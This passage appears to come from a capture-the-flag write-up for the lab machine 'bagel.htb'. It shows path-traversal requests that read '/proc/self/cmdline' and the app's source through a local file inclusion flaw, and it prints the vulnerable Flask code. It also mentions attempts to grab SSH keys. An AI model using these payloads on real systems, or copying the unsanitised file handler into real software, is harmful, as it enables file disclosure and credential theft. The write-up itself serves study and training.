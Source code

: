 I used the LFI vulnerability to try to extract more files. I tried loading configuration files for nginx and Apache. I tried to get the SSH key for both users on the machine. Nothing worked.

I used the LFI to read the command used to run the web server.

```http
GET /?page=../../../../proc/self/cmdline HTTP/1.1
Host: bagel.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

It returned the python application's full path.

```bash
python3 /home/developer/app/app.py
```

I extracted the script.


```http
GET /?page=/home/developer/app/app.py HTTP/1.1
```

```python
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json

app = Flask(__name__)

@app.route('/')
def index():
        if 'page' in request.args:
            page = 'static/'+request.args.get('page')
            if os.path.isfile(page):
                resp=send_file(page)
                resp.direct_passthrough = False
                if os.path.getsize(page) == 0:
                    resp.headers["Content-Length"]=str(len(resp.get_data()))
                return resp
            else:
                return "File not found"
        else:
                return redirect('http://bagel.htb:8000/?page=index.html', code=302)

@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```

